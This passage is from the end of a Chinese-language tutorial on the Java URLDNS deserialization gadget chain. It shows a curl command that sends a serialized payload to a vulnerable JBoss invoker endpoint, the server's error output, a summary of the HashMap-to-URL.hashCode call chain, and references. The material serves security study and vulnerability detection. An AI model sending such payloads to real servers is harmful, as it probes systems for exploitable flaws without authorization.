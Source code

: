 现在，向一个存在反序列化漏洞的 Jboss 环境发送如上生成的恶意序列化数据，效果符合我们的预期，见如下图，即 Jboss 服务器成功向我们指定的域发起 DNS 查询。

```shell
curl -H "Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue" --data-binary "@urldns.ser" <http://192.168.1.128:8080/invoker/readonly>

<html><head><title>JBoss Web/3.0.0-CR2 - Error report</title><style><!--H1 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:22px;} H2 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:16px;} H3 {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;font-size:14px;} BODY {font-family:Tahoma,Arial,sans-serif;color:black;background-color:white;} B {font-family:Tahoma,Arial,sans-serif;color:white;background-color:#525D76;} P {font-family:Tahoma,Arial,sans-serif;background:white;color:black;font-size:12px;}A {color : black;}A.name {color : black;}HR {color : #525D76;}--></style> </head><body><h1>HTTP Status 500 - </h1><HR size="1" noshade="noshade"><p><b>type</b> Exception report</p><p><b>message</b> <u></u></p><p><b>description</b> <u>The server encountered an internal error () that prevented it from fulfilling this request.</u></p><p><b>exception</b> <pre>java.lang.ClassCastException: java.util.HashMap cannot be cast to org.jboss.invocation.MarshalledInvocation
        org.jboss.invocation.http.servlet.ReadOnlyAccessFilter.doFilter(ReadOnlyAccessFilter.java:106)
</pre></p><p><b>note</b> <u>The full stack trace of the root cause is available in the JBoss Web/3.0.0-CR2 logs.</u></p><HR size="1" noshade="noshade"><h3>JBoss Web/3.0.0-CR2</h3></body></html>%
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/d37f98bc-e3af-424a-a41c-f8e16dbce015/urldns.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050159Z&X-Amz-Expires=3600&X-Amz-Signature=772d5cfd02099c4650fd4aa895e90d146d2e6f3c28b37a8ce6c1572f1b8536bc&X-Amz-SignedHeaders=host&x-id=GetObject)

### URLDNS 链总结

URLDNS 链比较简单，由于它只依赖原生类，没有 JDK 版本限制，且没有危害，只会触发 DNS 查询，所以它常被用作来检测反序列化漏洞，但前提是服务器的 DNS 流量必须出网。

由于该链的简单性，它只有 kick-off 和 sink，之间没有其他的类作为中间调用链。

- kick-off：`java.util.HashMap#readObject`
- sink：`java.net.URL#hashCode`

完整 gadget 调用链如下。

```text
HashMap.readObject()
  HashMap.putVal()
    HashMap.hash()
      URL.hashCode()
```

## 参考

- [https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles](https://www.slideshare.net/frohoff1/appseccali-2015-marshalling-pickles)
- [https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)
- [https://gosecure.github.io/presentations/2019-04-29_atlseccon/History_of_Deserialization_v2.2.pdf](https://gosecure.github.io/presentations/2019-04-29_atlseccon/History_of_Deserialization_v2.2.pdf)
- [https://www.pwntester.com/blog/2013/12/16/cve-2011-2894-deserialization-spring-rce/](https://www.pwntester.com/blog/2013/12/16/cve-2011-2894-deserialization-spring-rce/)
- [https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf](https://owasp.org/www-pdf-archive/Utilizing-Code-Reuse-Or-Return-Oriented-Programming-In-PHP-Application-Exploits.pdf)
- [https://su18.org/post/ysuserial/](https://su18.org/post/ysuserial/)
- [https://nvd.nist.gov/vuln/detail/CVE-2017-12149](https://nvd.nist.gov/vuln/detail/CVE-2017-12149)
- [https://web-sec.gitbook.io/wsa/advanced/deserialization](https://web-sec.gitbook.io/wsa/advanced/deserialization)
